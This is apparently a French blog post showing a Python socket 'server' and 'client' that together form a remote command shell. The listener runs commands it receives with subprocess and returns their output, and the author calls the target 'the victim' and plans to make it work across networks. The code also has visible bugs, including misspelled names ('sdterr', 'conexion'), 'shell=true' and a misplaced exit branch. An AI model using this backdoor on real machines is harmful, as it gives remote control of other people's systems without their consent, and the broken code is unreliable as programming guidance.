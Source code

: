 ```yaml
---
layout: post
title: Serveur et client en Python
---
```


Voici un premier test, en local, d'une communication entre un serveur et un client en Python. Le but final étant de pouvoir les faire communiquer sur deux réseaux différents.

#### __Le serveur :__

```
#!/bin/env python

#--*-- coding:UTF-8 --*--

import socket
connexion = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = input("Ip : ")
port = int(input("Port : "))
connexion.connect((host, port))
print("The connection with {} is done.".format(host, port))
started = True

while started:
    choice = int(input(" [1] Command\n [2] Leave\n > "))
    if choice == 1:
        command = input(" Command : ")
        connexion.send(command.encode())
        retour = connexion.recv(1024).decode('latin1')
        print(retour)

        if choice == 2:
            connexion.send("exit")
            connexion.close()
            break
```

&nbsp;

#### __Le client :__

```

#!/bin/env python

#--*-- coding:UTF-8 --*--

import socket
import subprocess

connexion = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
host = ''
port = 631
connexion.bind((host,port))
connexion.listen(5)
connexion_client, infos_connexion = connexion.accept()
started = True

while started:
    rcv_cmd = connexion_client.recv(1024)
    rcv_cmd = rcv_cmd.decode()
    if rcv_cmd != "exit":
        cmd = subprocess.Popen(rcv_cmd, shell=true, stdout = subprocess.PIPE, stderr =subprocess.PIPE, stdin = subprocess.PIPE )
        out = cmd.stdout.read() + cmd.sdterr.read()
        connexion_client.send(out)
    else:
        started = False
        conexion.close()
        exit
```


&nbsp;

Si j'execute le client avec la commande `python client.py`, voici le résultat :

![image_1](https://image.noelshack.com/fichiers/2019/37/3/1568187854-python1.jpg)


&nbsp;


Puis j'execute le le serveur qui va me demander l'IP de la victime, le port à utiliser puis les commandes que nous voulons passer :

![image_2](https://image.noelshack.com/fichiers/2019/37/3/1568187978-python2.jpg)


Nous pouvons voir que la commande `ls` me permet de lister le contenu se trouvant sur mon bureau. Le prochain objectif sera d'améliorer ce script pour pouvoir l'éxecuter sur deux réseaux différents.
